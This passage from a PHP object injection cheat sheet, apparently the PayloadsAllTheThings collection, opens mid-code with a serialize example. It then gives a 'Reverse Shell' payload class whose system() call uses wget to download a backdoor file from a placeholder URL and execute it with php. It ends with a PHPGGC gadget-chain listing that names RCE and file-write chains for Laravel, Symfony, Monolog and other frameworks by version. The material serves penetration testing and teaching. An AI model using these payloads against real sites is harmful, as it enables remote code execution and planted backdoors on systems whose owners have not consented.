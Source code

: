 ```php
   {
      $this->obj = new SQL_Row_Value;
   }
}

print urlencode(serialize(new Example3));
```

## Others exploits

#### Reverse Shell

```php
class PHPObjectInjection
{
    // CHANGE URL/FILENAME TO MATCH YOUR SETUP
    public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}

echo urlencode(serialize(new PHPObjectInjection));
```

## Finding and using gadgets (PHPGGC)

PHPGGC is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically. When encountering an unserialize on a website you don't have the code of, or simply when trying to build an exploit, this tool allows you to generate the payload without having to go through the tedious steps of finding gadgets and combining them. 

[https://github.com/ambionics/phpggc](https://github.com/ambionics/phpggc)

```bash
$ ./phpggc -l

Gadget Chains
-------------

NAME                  VERSION           TYPE             VECTOR         I    
Doctrine/FW1          ?                 file_write       __toString     *    
Guzzle/FW1            6.0.0 <= 6.3.2    file_write       __destruct          
Guzzle/RCE1           6.0.0 <= 6.3.2    rce              __destruct          
Laravel/RCE1          5.4.27            rce              __destruct          
Laravel/RCE2          5.5.39            rce              __destruct          
Laravel/RCE3          5.5.39            rce              __destruct     *    
Laravel/RCE4          5.5.39            rce              __destruct          
Magento/SQLI1         ? <= 1.9.3.4      sql_injection    __destruct          
Monolog/RCE1          1.18 <= 1.23      rce              __destruct          
Monolog/RCE2          1.5 <= 1.17       rce              __destruct          
Phalcon/RCE1          <= 1.2.2          rce              __wakeup       *    
Slim/RCE1             3.8.1             rce              __toString          
SwiftMailer/FW1       5.1.0 <= 5.4.8    file_write       __toString          
SwiftMailer/FW2       6.0.0 <= 6.0.1    file_write       __toString          
SwiftMailer/FW3       5.0.1             file_write       __toString          
Symfony/FW1           2.5.2             file_write       DebugImport    *    
Symfony/RCE1          3.3               rce              __destruct     *    
Symfony/RCE2          2.3.42 < 2.6      rce              __destruct     *    
Symfony/RCE3          2.6 <= 2.8.32     rce              __destruct     *    
Yii/RCE1              1.1.19            rce              __destruct          
ZendFramework/RCE1    ? <= 1.12.20      rce              __destruct     * 
```
